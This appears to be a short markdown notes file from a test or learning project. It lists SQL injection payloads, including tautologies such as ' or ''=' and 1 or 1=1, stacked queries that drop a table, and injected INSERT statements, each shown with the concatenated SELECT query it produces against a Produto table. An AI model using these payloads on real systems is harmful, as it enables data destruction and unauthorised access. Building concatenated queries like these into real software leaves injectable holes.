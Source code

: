 # TesteUm

- ' or ''='
- SELECT \* FROM Produto where descricao = '' or ''=''

- ' drop table Teste--
- SELECT \* FROM Produto where descricao = '' drop table Teste--'

- ' Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--
- SELECT \* FROM Produto where descricao = '' Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--'

# TesteDois

- 1;drop table Teste--
- 1;drop table Teste
- SELECT \* FROM Produto where id = 1;drop table Teste

- 1 or 1=1
- SELECT \* FROM Produto where id = 1 or 1=1

- 1; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())--
- 1; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())
- SELECT \* FROM Produto where id = 1; Insert into Teste (Descricao, DataCadastro) Values ('teste',getdate())

-
